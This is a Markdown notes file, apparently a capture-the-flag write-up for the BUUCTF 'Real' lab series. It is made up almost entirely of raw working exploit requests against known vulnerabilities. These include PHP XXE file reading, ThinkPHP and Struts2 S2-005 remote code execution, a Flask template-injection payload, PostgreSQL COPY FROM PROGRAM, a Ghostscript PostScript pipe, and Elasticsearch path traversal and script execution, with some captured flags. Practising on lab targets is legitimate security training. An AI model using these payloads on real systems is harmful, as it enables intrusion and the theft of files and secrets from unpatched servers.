

# BUUCTF-Real

- [PHP-XXE](#PHP-XXE)
- [ThinkPHP-5-Rce](#ThinkPHP-5-Rce)
- [ThinkPHP-5.0.23-Rce](#ThinkPHP-5.0.23-Rce)
- [ThinkPHP-2-Rce](#ThinkPHP-2-Rce)
- [Flask-SSTI](#Flask-SSTI)
- [s2-005](#s2-005)
- [Postgres-CVE-2019-9193](#Postgres-CVE-2019-9193)
- [CVE-2019-5418](#CVE-2019-5418)
- [Ghostscript-CVE-2018-16509](#Ghostscript-CVE-2018-16509)
- [ElasticSearch-CVE-2015-3337](#ElasticSearch-CVE-2015-3337)
- [ElasticSearch-CVE-2014-3120](#ElasticSearch-CVE-2014-3120)
- [ElasticSearch-CVE-2015-1427](#ElasticSearch-CVE-2015-1427)


## PHP-XXE

https://github.com/vulhub/vulhub/tree/master/php/php_xxe




```
POST /dom.php HTTP/1.1
Host: node4.buuoj.cn:28445
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.183 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 161

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```
在当前phpinfo页面搜索flag即可
## ThinkPHP-5-Rce

http://node4.buuoj.cn:29286/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1

flag{8f351e17-388e-4076-93b5-30fce230b2b7}

## ThinkPHP-5.0.23-Rce

```
POST /index.php?s=captcha HTTP/1.1
Host: node4.buuoj.cn:26600
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 107

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo "<?php phpinfo(); ?>" > test.php
```

http://node4.buuoj.cn:26600/test.php

搜索flag即可

## ThinkPHP-2-Rce

```
http://node4.buuoj.cn:27704/index.php?s=/index/index/name/$%7B@phpinfo()%7D
```

## Flask-SSTI


http://your-ip:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22env%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D

## s2-005

输出id命令
```
/example/HelloWorld.action?%28%27%5Cu0023context[%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27]%5Cu003dfalse%27%29%28bla%29%28bla%29&%28%27%5Cu0023_memberAccess.excludeProperties%5Cu003d@java.util.Collections@EMPTY_SET%27%29%28kxlzx%29%28kxlzx%29&%28%27%5Cu0023_memberAccess.allowStaticMethodAccess%5Cu003dtrue%27%29%28bla%29%28bla%29&%28%27%5Cu0023mycmd%5Cu003d%5C%27id%5C%27%27%29%28bla%29%28bla%29&%28%27%5Cu0023myret%5Cu003d@java.lang.Runtime@getRuntime%28%29.exec%28%5Cu0023mycmd%29%27%29%28bla%29%28bla%29&%28A%29%28%28%27%5Cu0023mydat%5Cu003dnew%5C40java.io.DataInputStream%28%5Cu0023myret.getInputStream%28%29%29%27%29%28bla%29%29&%28B%29%28%28%27%5Cu0023myres%5Cu003dnew%5C40byte[51020]%27%29%28bla%29%29&%28C%29%28%28%27%5Cu0023mydat.readFully%28%5Cu0023myres%29%27%29%28bla%29%29&%28D%29%28%28%27%5Cu0023mystr%5Cu003dnew%5C40java.lang.String%28%5Cu0023myres%29%27%29%28bla%29%29&%28%27%5Cu0023myout%5Cu003d@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28bla%29%28bla%29&%28E%29%28%28%27%5Cu0023myout.getWriter%28%29.println%28%5Cu0023mystr%29%27%29%28bla%29%29
```

输出env命令
```
/example/HelloWorld.action?%28%27%5Cu0023context[%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27]%5Cu003dfalse%27%29%28bla%29%28bla%29&%28%27%5Cu0023_memberAccess.excludeProperties%5Cu003d@java.util.Collections@EMPTY_SET%27%29%28kxlzx%29%28kxlzx%29&%28%27%5Cu0023_memberAccess.allowStaticMethodAccess%5Cu003dtrue%27%29%28bla%29%28bla%29&%28%27%5Cu0023mycmd%5Cu003d%5C%27env%5C%27%27%29%28bla%29%28bla%29&%28%27%5Cu0023myret%5Cu003d@java.lang.Runtime@getRuntime%28%29.exec%28%5Cu0023mycmd%29%27%29%28bla%29%28bla%29&%28A%29%28%28%27%5Cu0023mydat%5Cu003dnew%5C40java.io.DataInputStream%28%5Cu0023myret.getInputStream%28%29%29%27%29%28bla%29%29&%28B%29%28%28%27%5Cu0023myres%5Cu003dnew%5C40byte[51020]%27%29%28bla%29%29&%28C%29%28%28%27%5Cu0023mydat.readFully%28%5Cu0023myres%29%27%29%28bla%29%29&%28D%29%28%28%27%5Cu0023mystr%5Cu003dnew%5C40java.lang.String%28%5Cu0023myres%29%27%29%28bla%29%29&%28%27%5Cu0023myout%5Cu003d@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28bla%29%28bla%29&%28E%29%28%28%27%5Cu0023myout.getWriter%28%29.println%28%5Cu0023mystr%29%27%29%28bla%29%29
```

## CVE-2017-12149

jboss反序列化_CVE-2017-12149.jar

## CVE-2017-7504


## JMXInvokerServlet-deserialization

jboss反序列化_CVE-2017-12149.jar

## Postgres-CVE-2019-9193

Navicat连接数据库，数据库初始账号密码为postgres/postgres

影响版本：PostgreSQL 9.3-11.2
poc
```
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'env';
SELECT * FROM cmd_exec;
```

打印环境变量

flag{ba05334a-790f-4092-b65b-85ba70e84722}

## CVE-2019-5418

```
GET /robots HTTP/1.1
Host: node4.buuoj.cn:27855
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
Accept: ../../../../../../../../proc/1/environ{{
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17b865c3e394c2-036255e722aa89-c343365-1fa400-17b865c3e3a43b; _blog_session=yk3j3zdsE38sGRr1qChqiP2c%2FsLP6%2FtP1%2FbNQ%2B2h8cFWVt0DIfVVFPKOcetA7wbAOkrZjWGwL4%2F00d6NYn7RSdUbgKrh4yhR%2FA3Zh13GPpdT8PA5nipbtFr%2Bv4Cp2YUu1HBuaMrvxiV1x8bIsQg%3D--wfXpXJkuxo69%2B2rQ--BYQP7mw53G7Eg%2F4MyvECHg%3D%3D
Connection: close
```

## Ghostscript-CVE-2018-16509

另存为poc.png
```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%env > /tmp/success && cat /tmp/success) currentdevice putdeviceprops
```

直接上传可打印环境变量


## ElasticSearch-CVE-2015-3337


在安装了具有“site”功能的插件以后，插件目录使用../即可向上跳转，导致目录穿越漏洞，可读取任意文件。没有安装任意插件的elasticsearch不受影响。

影响版本：1.4.5以下/1.5.2以下

以下不要在浏览器访问
```
GET /_plugin/head/../../../../../../../../../proc/1/environ HTTP/1.1
Host: node4.buuoj.cn:25305
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17b865c3e394c2-036255e722aa89-c343365-1fa400-17b865c3e3a43b
Connection: close
```

## ElasticSearch-CVE-2014-3120

```
POST /website/blog/ HTTP/1.1
Host: node4.buuoj.cn:29898
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17b865c3e394c2-036255e722aa89-c343365-1fa400-17b865c3e3a43b
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "phithon"
}
```

```
POST /_search?pretty HTTP/1.1
Host: node4.buuoj.cn:29898
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17b865c3e394c2-036255e722aa89-c343365-1fa400-17b865c3e3a43b
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 357

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"env\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```

## ElasticSearch-CVE-2015-1427

```
POST /website/blog/ HTTP/1.1
Host: node4.buuoj.cn:29618
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17b865c3e394c2-036255e722aa89-c343365-1fa400-17b865c3e3a43b
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

{
  "name": "test"
}
```

```
POST /_search?pretty HTTP/1.1
Host: node4.buuoj.cn:29618
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17b865c3e394c2-036255e722aa89-c343365-1fa400-17b865c3e3a43b
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 157

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"env\").getText()"}}}
```